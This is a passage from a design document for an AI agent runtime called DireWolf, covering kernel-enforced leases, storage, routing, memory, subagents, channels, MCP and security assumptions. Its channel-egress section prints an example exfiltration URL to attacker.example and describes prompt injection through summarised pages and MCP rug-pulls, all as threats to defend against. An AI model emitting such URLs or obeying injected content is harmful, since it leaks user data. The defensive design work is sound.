6. **Fencing.** The kernel-issued `epoch` accompanies every kernel request; the kernel rejects any epoch below its current value for that session. *This is what makes leases safe rather than merely convenient* — a zombie runtime that lost its lease cannot still perform side effects, and cannot mint itself a fresher one.
7. **Inside a run**, concurrency is encouraged: parallel read-only tools, parallel subagents. **Across runs in a session** it is opt-in and implemented by creating child sessions, not by relaxing the writer rule.

Rejected: optimistic-only (loses the ordering users perceive in chat); an actor framework (unnecessary dependency); the GIL (not a safety mechanism).

## 16. Persistence strategy

- **SQLite in WAL mode**, one file per DireWolf home, plus a content-addressed artifact directory.
- `busy_timeout=5000`, `foreign_keys=ON`, `synchronous=NORMAL`; one writer connection plus a reader pool.
- Migrations are forward-only, numbered, transactional, with a mandatory pre-migration backup for anything flagged `risky`.
- **The kernel keeps its own store** (`kernel.db`, `audit.log`) that the runtime OS user cannot write to, enforced by filesystem permissions. Approvals, capabilities, budgets and audit must not be mutable by the process they constrain — a shared database would silently undo the entire architecture.
- PostgreSQL remains possible later behind the repository interfaces, but we implement no abstraction we do not currently use ([ADR-0009](adr/0009-storage-strategy.md)).

## 17. Event architecture

**Hybrid. Not event sourcing** ([ADR-0010](adr/0010-event-model.md)).

| Data | Home | Why |
|------|------|-----|
| Entities (session, run, task, approval, memory, artifact) | Relational tables, authoritative | Queried, updated, need referential integrity |
| Run timeline / transcript | Append-only event log | It *is* naturally an append-only sequence; replay and UI need ordering |
| Security decisions | Append-only, hash-chained audit | Must be tamper-evident |
| UI timelines, usage rollups | Derived projections, rebuildable | Cheap to recompute; never authoritative |

Envelope: `{event_id (UUIDv7), schema, schema_version, ts, seq, run_id, session_id, agent_id, causation_id, correlation_id, trust, payload}`.

Versioning: namespaced schema ids (`direwolf.tool.completed`); additive-only within a major; **unknown events are retained verbatim and skipped by projectors** — forward compatibility is a hard requirement because event files outlive code. Major bumps ship upcasters. Projection rebuild is supported and tested (`direwolf store rebuild-projections`).

## 18. Artifact flow

Tool output above `max_inline_bytes` (default 32 KiB) becomes an artifact: written to the CAS by sha256, with the model receiving a structured reference plus a bounded, **structure-aware** excerpt — head/tail for logs, schema+sample for tabular data, error-lines-first for compiler output. Artifacts carry provenance, sensitivity and retention; they are first-class and exportable. See [ARTIFACTS.md](ARTIFACTS.md).

This is the single largest lever on context cost, and it is what prevents "500 MB of output reaches the model."

---

## 19. Model provider abstraction

```
ModelProvider  (implemented ONLY under providers/)
  capabilities() -> ModelCapabilities {
      tool_use, parallel_tools, streaming, structured_output,
      json_schema_strictness, vision, audio, reasoning_effort,
      cache_read, cache_write, max_context, max_output, stop_reasons[] }
  shape_request(CanonicalRequest) -> ModelCall          # TYPED semantics; no headers,
                                                        # no body, no endpoint, no socket
  parse_stream(bytes) -> Iterator[CanonicalDelta]
  parse_usage(response) -> ModelUsage
  classify_error(status, body) -> ErrorClass  # RATE_LIMIT|OVERLOAD|INVALID|AUTH|TRANSIENT|FATAL
```

The loop speaks only `CanonicalRequest` / `CanonicalDelta`. **The adapter shapes semantics; it does not build an HTTP request.** The runtime cannot express an arbitrary header, body or endpoint through `model.call` — `dwkd-broker` renders the provider request from a declarative profile, and `dwkd-authority` authorises the origin, privacy class and credential ([ADR-0020](adr/0020-provider-request-path-v2.md)).

Provider differences are absorbed by **capability negotiation plus declared degradation strategies**:

| Difference | Strategy |
|-----------|----------|
| No native tool use | Structured-output shim; if unavailable, the model is *ineligible* for tool-bearing runs. Fail closed, not "parse XML and hope." |
| No parallel tool calls | Loop serialises. A capability flag, not a try/except. |
| JSON-schema strictness varies | Validate every tool call runtime-side regardless. Never trust provider-side validation. |
| Prompt caching differs | Cache hints are advisory metadata on context sections; providers that ignore them still work. |
| Token accounting differs | Kernel meters from the provider's own usage block via a declarative JSON-pointer extractor; falls back to a local tokenizer estimate marked `estimated=true`. |
| Provider-side tools (web search etc.) | Modelled as tools with side-effect class `EXTERNAL` and an implicit network capability. They are *not* exempt from policy: a run without `network.*` cannot enable them. |

**Nothing in `loop/`, `context/` or `tools/` may name a provider.** CI enforces it (§6).

## 20. Model routing

The router **proposes**; the kernel **disposes**.

```
route(task_profile, constraints) -> ranked [ModelChoice]

task_profile: kind (reason|code|classify|extract|vision|summarise),
              est_context, needs_tools, needs_vision, latency_sensitivity
constraints:  privacy_class, allowed_upstreams (from policy), budget_remaining,
              provider_health, user_pin
```

Rules are declarative and explainable (`direwolf route explain`). Health uses a per-(provider, model) circuit breaker: `healthy | degraded | unavailable`.

**The enforcement point is not the router.** Each run carries a `privacy_class` (`LOCAL_ONLY`, `VENDOR_OK`, `ANY`). The kernel performs the call and refuses a forbidden upstream. A bug, a bad heuristic or a manipulated planner cannot leak `LOCAL_ONLY` content, because the only component that could make the request holds no credential for the forbidden upstream and is denied by policy.

## 21. Memory integration

Five stores with different lifetimes and, more importantly, different **trust rules** — not one vector database:

| Store | Lifetime | Promotion gate |
|-------|----------|----------------|
| Working | run | none (it *is* the run) |
| Episodic | session / long | automatic, but trust-labelled |
| Semantic (curated) | durable | **human approval required if the provenance chain touches untrusted content** |
| Prospective | until fired / expired | explicit creation only; a first-class object, not a note |
| Procedural (skills) | durable, versioned | validation pipeline + approval |

**V1 ships the first three.** Prospective depends on the scheduler (V1.1); procedural gains a write path only with skill learning (M25).

Retrieval is hybrid (FTS5/BM25 + optional vectors + recency + importance + scope), fused with reciprocal rank fusion, and **inspectable**: every retrieval returns a per-signal score breakdown, and `direwolf memory explain <query>` prints why each item surfaced. See [MEMORY.md](MEMORY.md).

## 22. Skill integration

A skill is a versioned directory with a manifest declaring required capabilities, an integrity hash and a trust level. Effective authority is `agent_caps ∩ skill_declared_caps` — a skill can only narrow. Learned skills enter at `GENERATED_UNTRUSTED` and must pass static inspection, sandboxed tests, a security eval and explicit human approval before being marked trusted. Built-ins are signed. See [SKILLS.md](SKILLS.md).

## 23. Subagent model

- A subagent is a **run** — own context, own budget reservation, own lifecycle. Not a function call.
- `child_caps ⊑ parent_caps`, enforced by the Capability Broker in the kernel at mint time. The orchestrator *asks*; it cannot grant.
- **Budgets are subtractive**: a child's budget is reserved out of the parent's remaining budget. Ten subagents cannot each receive "the parent's budget" — the classic fan-out cost bomb.
- Limits: depth, total descendants, live fan-out, aggregate wall clock.
- Workspaces: each subagent gets an isolated workspace — an **independent local clone** where the workspace is a git repository (`--shared`/`--reference` forbidden), a COW/reflink copy otherwise. Linked worktrees are not used: they share config and hooks with the parent. Merges are explicit and deterministic; conflicts surface as conflicts rather than last-writer-wins ([ADR-0025](adr/0025-subagent-workspace-clone.md)).
- Inter-agent messages are typed (`request|result|progress|artifact_ref|question|cancel|failure`) and carry lineage. See [ORCHESTRATION.md](ORCHESTRATION.md).

## 24. Workflow engine

V1 ships the **minimum useful**: a persisted task DAG inside a run supporting sequence, parallel fan-out, fan-in join, conditional skip, per-task retry and compensation. It lives in the runtime, stores tasks as SQLite rows, and reuses the checkpoint mechanism.

We explicitly do **not** ship durable multi-day workflows, distributed dispatch, a workflow DSL, or a Temporal/Airflow dependency. Deferred with a stated graduation trigger ([WORKFLOWS.md](WORKFLOWS.md) §When to graduate).

## 25. Scheduler

One-shot, cron and interval jobs, plus **Standing Intents** — durable "watch X, tell me when Y" objects with owner, trigger, recurrence, budget, policy profile, destination, expiry and enabled flag. Never invisible infinite loops.

**No scheduler bypass.** A scheduled trigger creates an ordinary run through admission, policy, budget, approval and audit. Its capability set is the *intersection* of the intent's declared set and the owning agent's current set, evaluated at fire time — so revoking a capability immediately affects every scheduled job.

Because unattended runs are the highest-risk category (nobody is watching), the default profile for scheduler-origin runs is stricter: `REQUIRE_APPROVAL` degrades to `DENY` unless the intent carries an explicit, pre-authorised standing grant.

## 26. Gateway

Deliberately not a god object: four separable pieces (§4) — transport, authn, ingress, routing. The gateway's authority is "can address a session"; it cannot act. Compromising it lets an attacker talk to an agent, which is what an ordinary user can already do, and nothing more.

In V1 the gateway is **optional**: `direwolf chat` and `direwolf run` work as a local process tree with no daemon. The gateway arrives at M19 with channels.

**The gateway does not deliver outbound messages.** It receives them, but the actual send is a kernel operation (`ChannelSend`, [PROTOCOL.md](PROTOCOL.md) §2). Two reasons, both structural: the channel's bot token is a credential and so lives in the secret broker, and outbound content is an egress surface (§27 below). A gateway that delivered messages itself would hold a credential and would be a second path from cognition to effect.

## 27. Channels

`ChannelAdapter` declares capabilities as data: `streaming`, `edit_message`, `attachments`, `buttons`, `reactions`, `max_message_bytes`, `markdown_flavour`, `authenticates_users`. The runtime renders to a capability profile; it never contains `if channel == "telegram"`.

**`ChannelAdapter` is deferred to M20 with the channels themselves.** An earlier draft claimed the CLI is implemented as a channel adapter "so the abstraction is exercised by its own reference implementation." That claim was wrong twice over: the CLI is a **Rust** binary and the interface is a **Python** type in the gateway package (unbuilt until M19), and the declared capability set (`edit_message`, `buttons`, `reactions`, `attachments`, `markdown_flavour`, `authenticates_users`) is Telegram-shaped — a TTY has none of them, and `authenticates_users` is meaningless locally.

An interface whose single implementation is the degenerate case does not stay honest; it rots silently, because nothing exercises the fields that matter. So V1 ships a CLI, and `ChannelAdapter` is designed at M20 against **two** real channels. No cross-language shim was invented to preserve the original claim.

### Outbound channel content is an egress surface

Chat platforms fetch URLs found in messages to build link previews. An agent that emits a message containing `https://attacker.example/?d=<stolen>` causes the *platform* to exfiltrate the data, with no tool call, no network capability, and no user click. Tool policy cannot see this, because from the tool layer's perspective nothing happened but a reply.

DireWolf therefore treats **agent→channel content as egress**, not as output:

- Outbound messages pass through the kernel's egress policy before delivery. URLs in agent-authored content are extracted, resolved and evaluated against the same host allowlist as `network.http`.
- A run with no network capability cannot emit a URL to a non-allowlisted host. It is rendered inert (displayed as text with the scheme stripped and a visible marker) rather than silently dropped.
- Content whose provenance chain touches `EXTERNAL_UNTRUSTED` is subject to a stricter profile: novel URLs require approval regardless of the run's network capability, because the classic attack is "summarise this page" where the page supplies the URL.
- The same rule covers Markdown image embeds (``, which auto-fetch on many platforms), HTML `` in rich channels, and link-bearing attachment metadata.

This closes an exfiltration channel that is invisible to conventional agent permission models. See [NETWORK_SECURITY.md](NETWORK_SECURITY.md) §Channel egress.

## 28. MCP

DireWolf is an MCP **client**. Discovered tools register into the ordinary Tool Registry and receive no special status.

- MCP servers are spawned **by the kernel**, inside a sandbox, with no network unless policy grants it.
- MCP tool *descriptions* are untrusted text: shown to the model inside untrusted-content delimiters, and never allowed to influence policy, capability grants or approval prompts.
- **Rug-pull defence**: if a server's tool set or any tool's schema changes, prior approvals for that server are invalidated and re-consent is required. The registry stores a `toolset_hash` per server.
- `mcp.use:<server_id>` plus the underlying capabilities the server's tools actually need. Installing a server grants nothing by itself.

## 29. Browser

Deferred to M23; constraints fixed now. Playwright (or equivalent) driving a browser **inside** a sandbox whose only network route is the kernel egress proxy. Per-agent isolated profiles and cookie jars. Downloads land in quarantine as artifacts and are never auto-opened. Uploads require a capability naming the specific file. Page content reaches the model as an accessibility-tree / structured snapshot, not raw HTML. Credential entry follows the secret broker rules (modes A/B/C, never D).

## 30. Remote workers

Deferred. Constraints fixed: mTLS identity, explicit trust tier per worker, capability sets that are the *intersection* of the run grant and the worker tier, scoped short-lived credentials, streamed events, cancellation support. A remote worker is an `ExecutionEnvironment` implementation — the tool layer does not change.

## 31. Failure recovery

Detail in [RELIABILITY.md](RELIABILITY.md). Architectural essentials:

- **Intent-before-effect.** Every side-effecting tool call writes `tool.intent_recorded` (canonical action + idempotency key) *before* execution. After a crash, an intent with no matching completion means "may have happened" → outcome `UNKNOWN` → reconcile or fail closed. **Never blind-retry.**
- **Retry classes** declared per tool: `RETRY_SAFE`, `RETRY_WITH_KEY`, `NON_RETRYABLE`, `UNKNOWN` (treated as `NON_RETRYABLE`).
- **Circuit breakers** per provider/model and per worker.
- **Fail closed**: if the kernel is unreachable the runtime can do nothing, by construction.

## 32. Checkpoints

A checkpoint captures durable, **model-independent** state: run lifecycle state, task graph, completed task results, artifact references, context manifests, budget position, approval state, workspace revision (git commit / snapshot id), committed memory writes.

It explicitly does **not** capture provider-side state, opaque model internals, open sockets, in-flight tool processes, or sandbox ephemeral filesystem beyond the workspace snapshot.

Resumability is a per-tool property. A run whose last action was side-effect class `EXTERNAL` with outcome `UNKNOWN` is **not** auto-resumable: it surfaces to the human with the specific reconciliation question.

## 32a. Packaging and the authority/runtime coupling

DireWolf ships as a complete runtime; the authority plane is deliberately **not** coupled to it more than necessary ([ADR-0029](adr/0029-packaging-runtime-first-decoupled-authority.md)).

DWKP is layered:

| Layer | Operations | Constraint |
|---|---|---|
| **Authority primitives** | `AdmitRun` `ReleaseRun` `AcquireLease` `ReleaseLease` `ToolInvoke` `ToolCancel` `CanonicalPreview` `QueryBudget` `QueryAuthority` `QueryInvocationStatus` `ModelCall` `CreateArtifact` `ReadArtifact` `Heartbeat` | May not presume DireWolf's loop, context engine or orchestration model |
| **Runtime-shaped conveniences** | `ListVisibleTools` `SpawnSubagent` `McpOpen` `McpClose` `ChannelSend` | First-party; explicitly the non-primitive layer |

`SpawnSubagent` must remain expressible as `AdmitRun` + an attenuation request. If it ever cannot be, the primitive layer has leaked and that is an ADR-worthy regression. Every new DWKP operation states which layer it belongs to.

## 33. Extension points

| Point | Interface | Trust |
|-------|-----------|-------|
| Model provider | `ModelProvider` | in-process, code-reviewed |
| Tool | `ToolDefinition` + handler | in-process, capability-declared |
| Execution environment | `ExecutionEnvironment` | kernel-side, privileged — highest review bar |
| Channel | `ChannelAdapter` | edge, no authority |
| Memory store | `MemoryStore` | runtime |
| Plugin | manifest + out-of-process host | untrusted, capability-granted |
| Policy rule pack | TOML rules | trusted; human-authored only, **never agent-authored** |
| Skill | manifest + files | untrusted until validated |
| Eval | harness plugin | test-only |

## 34. Security assumptions

**Assumed true:**

1. The host OS kernel and its isolation primitives are sound.
2. `dwkd-authority` and its dependency set are not backdoored — mitigated by a deliberately small dependency set (no HTTP client, no TLS stack, no container client, no content parsers — those live in `dwkd-broker`), pinning, SBOM, `cargo-deny` and `cargo-vet`. Not eliminated. A `dwkd-broker` compromise is bounded to the invocation it was handed; a `dwkd-authority` compromise is total.
3. The operator's approval decisions are their own. We are responsible for showing them the truth, not for their judgement.
4. The OS keychain / age-encrypted store protects secrets at rest while the machine is locked.
5. Container isolation resists a non-kernel-0day attacker. **We do not claim VM-grade isolation from OCI containers.**

**Assumed false — i.e. actively defended against:**

1. Model output is benign.
2. Web / email / repo / MCP / tool content is benign.
3. The runtime process has not been hijacked.
4. A sandboxed process stays within its intended behaviour.
5. Runtime dependencies are trustworthy.
6. Approvals reach the right agent for the right action without explicit binding.

**Assurance varies by platform.** Linux gets the full model (user namespaces, seccomp, Landlock, cgroups v2). macOS relies on the Docker Desktop VM plus Seatbelt for host-side processes. **Windows has the weakest native story**: the supported configuration is Docker Desktop on the WSL2 backend, so the kernel and sandboxes run inside Linux. Native-Windows host execution is supported but documented as *reduced assurance*, and `direwolf doctor` says so explicitly rather than silently degrading. See [SANDBOX.md](SANDBOX.md) §Platform assurance.
